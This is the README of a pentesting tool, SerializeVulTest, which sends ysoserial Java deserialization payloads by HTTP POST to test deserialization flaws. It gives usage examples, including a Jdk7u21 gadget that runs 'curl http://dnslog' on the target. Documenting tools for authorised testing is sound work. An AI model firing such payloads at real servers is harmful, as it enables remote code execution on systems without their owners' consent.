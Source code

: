 # SerializeVulTest


在一次灰盒测试时发现burp发POST请求时不能正确的传输序列化过后的ysoserial的payload。

参考并修改了weblogic.py，通过http post方式发送ysoserial的payload  

旨在方便测试存在反序列化的点  
```
usage: SerializeVulTest.py [-h] -u URL [-j JAR] [-g GADGET] [-c COMMAND] [-m MODUL] [-f FILEPATH]

SerialVulTest

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Vul URL
  -j JAR, --jar JAR     The local Ysoserial.jar Path
  -g GADGET, --gadget GADGET
                        Ysoserial.jar Gadget, Example: URLDNS or Jdk7u21 ...
  -c COMMAND, --command COMMAND
                        Ysoserial Command, Example: http://xxxx.dnslog.cn or curl http://xxxx.dnslog.cn ...
  -m MODUL, --modul MODUL
                        1、ser：poc以读取序列化文件数据形式发送；2、cmdl：命令行模式，命令行发送序列化poc。默认为命令行模式
  -f FILEPATH, --filepath FILEPATH
                        Serialize Payload File Path: /User/xxxx/Desktop/xxx.ser
                        
  Example：
  1: python3 SerializeVulTest.py -u "http://ip:port/route" -j ysoserial.jar -g Jdk7u21 -c "curl http://dnslog"
  2: python3 SerializeVulTest.py -u "http://ip:port/route" -j ysoserial.jar -g URLDNS -c http://dnslog
  3: python3 SerializeVulTest.py -m ser -u "http://ip:port/route" -f ./test.ser
``` 
  
2021-08-26-14:54更新  
1、添加：可指定ser文件，以读取序列化文件数据通过POST请求发送（需指定-m参数值为ser，-f参数值为ser文件路径）  
2、添加提示信息   
3、添加header头"Content-Type":"application/x-java-serialized-object"，发送POST数据时以该header发送
  
![image](https://user-images.githubusercontent.com/63454826/130916984-5ac0908d-f39d-4ea6-a380-1bf0ac7ba8d8.png)
